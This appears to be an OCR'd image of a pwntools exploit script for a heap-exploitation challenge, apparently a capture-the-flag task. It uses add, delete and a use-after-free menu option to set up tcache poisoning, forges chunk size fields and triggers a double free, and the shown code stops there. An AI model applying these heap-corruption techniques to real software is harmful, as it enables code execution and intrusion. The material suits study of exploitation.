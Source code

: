 ```plain

context.os = 'linux'
context.arch = 'amd64'
# context.arch = 'i386'
context.log_level = "debug"

s       = lambda data               :p.send(data)
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data,num           :u32(p.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(p.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
context.terminal = ['gnome-terminal','-x','sh','-c']

def dbg():
    gdb.attach(proc.pidof(p)[0])
    pause()


def add(size,content):
    p.sendlineafter("Your choice : ",str(1))
    p.sendlineafter("Size: ",str(size))
    p.sendafter("Content: ",content)

def delete(index):
    p.sendlineafter("Your choice : ",str(2))
    p.sendlineafter("Index: ",str(index))

def uaf(index):
    p.sendlineafter("Your choice : ",str(9))
    p.sendlineafter("Index: ",str(index))

def pwn():
    add(0x100,'a')#prev
    add(0x100,'b')#victim

    add(0x80,'c')#second tcache poisoning.after the first tcache poisoning,the 0x100 tcache chain will bad
    #so we need to prepare 0x80 tcache chain
    payload=p64(0xdeadbeef)*14+p64(0x180)+p64(0x90)
    add(0x100,payload)#size and prev_size of unsigned bin to be forged

    for i in range(6):
        add(0x100,'a')

    for i in range(3,10):
        delete(i) 

    uaf(1)

    delete(0)

    add(0x100,'a')#take one from tcache bin

    delete(1)#double free
```